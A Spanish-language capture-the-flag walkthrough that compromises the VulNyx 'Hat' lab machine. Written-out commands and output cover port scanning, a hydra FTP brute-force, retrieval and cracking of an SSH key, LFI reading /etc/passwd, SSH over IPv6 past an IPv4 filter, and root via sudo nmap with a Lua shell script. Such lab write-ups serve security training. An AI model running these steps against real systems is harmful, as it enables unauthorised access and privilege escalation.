


Pentesting & Ctf Pl4yer
VulNyx - Hat
Autor: d4t4s3c
Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.24
PORT STATE SERVICE
22/tcp filtered ssh
80/tcp open http
65535/tcp open unknown
Escaneo de servicios
❯ nmap -sVC -v -p 22,80,65535 192.168.1.24
PORT STATE SERVICE VERSION
22/tcp filtered ssh
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
65535/tcp open ftp pyftpdlib 1.5.4
| ftp-syst:
| STAT:
| FTP server status:
| Connected to: 192.168.1.24:65535
| Waiting for username.
| TYPE: ASCII; STRUcture: File; MODE: Stream
| Data connection closed.
|_End of status.
SSH
22/tcp filtered
Más adelante explicaré porque está filtrado.
HTTP
❯ whatweb -v 192.168.1.24
Status : 200 OK
Title : Apache2 Debian Default Page: It works
IP : 192.168.1.24
Country : RESERVED, ZZ
Summary : Apache[2.4.38], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)]
Si intento conectarme al servidor ftp con el usuario anonymous me dice que no tengo acceso con dicho usuario.
❯ ftp anonymous@192.168.1.24 65535
Connected to 192.168.1.24.
220 pyftpdlib 1.5.4 ready.
331 Username ok, send password.
Password:
530 Anonymous access not allowed.
ftp: Login failed
Empiezo enumerando directorios con WFUZZ y encuentro dos directorios que me llaman la atención.
❯ wfuzz -c -t 200 --hc=404 --hw=933 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.24/FUZZ
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000002271: 301 9 L 28 W 311 Ch "logs"
000038759: 301 9 L 28 W 318 Ch "php-scripts"
Búsqueda de extensiones log en el directorio logs.
❯ wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,log http://192.168.1.24/logs/FUZZ.FUZ2Z
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000117684: 200 25 L 190 W 1760 Ch "vsftpd - log"
Con curl miro el contendio del archivo vsftpd.log y observo que el usuario admin_ftp se ha logueado correctamente al servidor ftp y luego se ha desconectado.
❯ curl -s http://192.168.1.24/logs/vsftpd.log
[I 2021-09-28 18:43:57] >>> starting FTP server on 0.0.0.0:21, pid=475 <<<
[I 2021-09-28 18:43:57] concurrency model: async
[I 2021-09-28 18:43:57] masquerade (NAT) address: None
[I 2021-09-28 18:43:57] passive ports: None
[I 2021-09-28 18:44:02] 192.168.1.83:49268-[] FTP session opened (connect)
[I 2021-09-28 18:44:06] 192.168.1.83:49280-[] USER 'l4nr3n' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49290-[] USER 'softyhack' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49292-[] USER 'h4ckb1tu5' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49272-[] USER 'noname' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49278-[] USER 'cromiphi' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49284-[] USER 'b4el7d' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49270-[] USER 'shelldredd' failed login.
[I 2021-09-28 18:44:06] 192.168.1.83:49270-[] USER 'anonymous' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49292-[] USER 'alienum' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[] USER 'k1m3r4' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49284-[] USER 'tatayoyo' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49278-[] USER 'Exploiter' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49268-[] USER 'tasiyanci' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49274-[] USER 'luken' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49270-[] USER 'ch4rm' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49282-[] FTP session closed (disconnect).
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[admin_ftp] USER 'admin_ftp' logged in.
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[admin_ftp] FTP session closed (disconnect).
[I 2021-09-28 18:44:12] 192.168.1.83:49272-[] FTP session closed (disconnect).
Realizo un ataque de fuerza bruta al servidor ftp con el usuario admin_ftp y consigo su contraseña.
hydra -t 50 -l admin_ftp -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.24 -s 65535 -V -f -I
[65535][ftp] host: 192.168.1.24 login: admin_ftp password: c****y
Me conecto al servidor FTP y veo una carpeta con el nombre share.
ftp> ls
229 Entering extended passive mode (|||38957|).
125 Data connection already open. Transfer starting.
drwxrwxrwx 2 cromiphi cromiphi 4096 Sep 28 2021 share
Dentro de share encuentro los siguientes archivos y me los descargo.
ftp> cd share
250 "/share" is the current directory.
ftp> ls
229 Entering extended passive mode (|||49285|).
125 Data connection already open. Transfer starting.
-rwxrwxrwx 1 cromiphi cromiphi 1751 Sep 28 2021 id_rsa
-rwxrwxrwx 1 cromiphi cromiphi 108 Sep 28 2021 note
Archivo note.
Hi,
We have successfully secured some of our most critical protocols ... no more worrying!
Sysadmin
Uso RSACrack para conseguir el passhprase del archivo id_rsa.

Antes de conectarme por ssh me falta un directorio por enumerar, así que hago una búsqueda de extensiones php en el directorio php-scripts.
❯ wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,php http://192.168.1.24/php-scripts/FUZZ.FUZ2Z
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000759: 200 0 L 0 W 0 Ch "file - php"
El archivo file.php es vulnerable a LFI.
❯ wfuzz -c -t 200 --hc=404 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://192.168.1.24/php-scripts/file.php?FUZZ=/etc/passwd"
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000100: 200 26 L 38 W 1404 Ch "6"
Visualizo el archivo /etc/passwd y obtengo el usuario para la llave rsa.

En este caso la enumeración del directorio php-scripts es opcional ya que en el servidor ftp se puede deducir que el usuario es cromiphi, pero recomiendo realizar estos pasos para refrescar métodos de enumeración.Si intento conectarme por SSH no conseguiré conectarme porque el puerto está filtrado, pero está filtrado para IPv4 pero no para IPv6, para ver que IPv6 tiene la máquina objetivo usaré ping6.
❯ ping6 -c2 -n -I eth0 ff02::1
ping6: Warning: source address might be selected on device other than: eth0
PING ff02::1(ff02::1) from :: eth0: 56 data bytes
64 bytes from fe80::a00:27ff:fe53:c789%eth0: icmp_seq=1 ttl=64 time=0.797 ms
Ahora si me puedo conectar al sistema por SSH.
❯ ssh -6 -i id_rsa cromiphi@fe80::a00:27ff:fe53:c789%eth0
Enter passphrase for key 'id_rsa':
Linux Hat 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
cromiphi@Hat:~$ id
uid=1000(cromiphi) gid=1000(cromiphi) grupos=1000(cromiphi),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
Enumero permisos con sudo.
cromiphi@Hat:~$ sudo -l
Matching Defaults entries for cromiphi on Hat:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User cromiphi may run the following commands on Hat:
(root) NOPASSWD: /usr/bin/nmap
Para obtener el root he usado este recurso online de GTFOBins.
https://gtfobins.github.io/gtfobins/nmap/#sudo
Obtengo el root realizando estos pasos.
cromiphi@Hat:~$ TF=$(mktemp)
cromiphi@Hat:~$ echo 'os.execute("/bin/bash")' > $TF
cromiphi@Hat:~$ sudo /usr/bin/nmap --script=$TF
Starting Nmap 7.70 ( https://nmap.org ) at 2023-04-24 21:26 CEST
NSE: Warning: Loading '/tmp/tmp.H5yj30qKee' -- the recommended file extension is '.nse'.
root@Hat:/home/cromiphi# uid=0(root) gid=0(root) grupos=0(root)
Y con esto ya tenemos resuelta la máquina Hat del sr d4t4s3c, Saludos!